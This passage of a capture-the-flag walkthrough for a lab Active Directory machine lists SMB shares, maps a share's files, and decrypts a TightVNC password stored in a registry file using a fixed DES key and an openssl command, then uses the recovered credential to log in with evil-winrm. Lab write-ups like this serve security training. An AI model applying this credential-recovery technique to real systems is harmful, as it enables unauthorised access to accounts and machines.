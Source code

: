 ```
SMB         cascade.local   445    CASC-DC1         print$          READ            Printer Drivers
SMB         cascade.local   445    CASC-DC1         SYSVOL          READ            Logon server share
```

We'll leave aside the `Audit$` share and focus on the `Data` one first.
```
.
├── Email Archives
│   └── Meeting_Notes_June_2018.html
├── LogonAudit
├── Logs
│   ├── Ark AD Recycle Bin
│   │   └── ArkAdRecycleBin.log
│   └── DCs
│       └── dcdiag.log
└── Temp
    ├── r.thompson
    └── s.smith
        └── VNC Install.reg
```

There is multiple information's that we can deduce from this data :)
1. We have an encrypted version of the `s.smith` password
2. Inside the `Meeting_Notes_June_2018.html` file we discover that there is a temp admin that have the same credential as the real admin
3. The `ArkAdRecycleBin.log` tells us that  the TempAdmin was deleted and put in the AD Recycle Bin

## Getting `s.smith` password
Inside the `Temp/s.smith` directory we discover a registry file that looks like a `TightVNC` server configuration. Inside we find a key named password in an hexadecimal format
```
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
```

Using this following [resource](https://github.com/billchaison/VNCDecrypt) we can successfully decode the password
```
❯ echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv                                                                                              14:53:39
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
```

This give us `s.smith` with which we can logon to the machine using evil-winrm and access the user flag.

`s.smith` have access to the `Audit$` share which contains some windows binaries as well as an `Audit.db`.

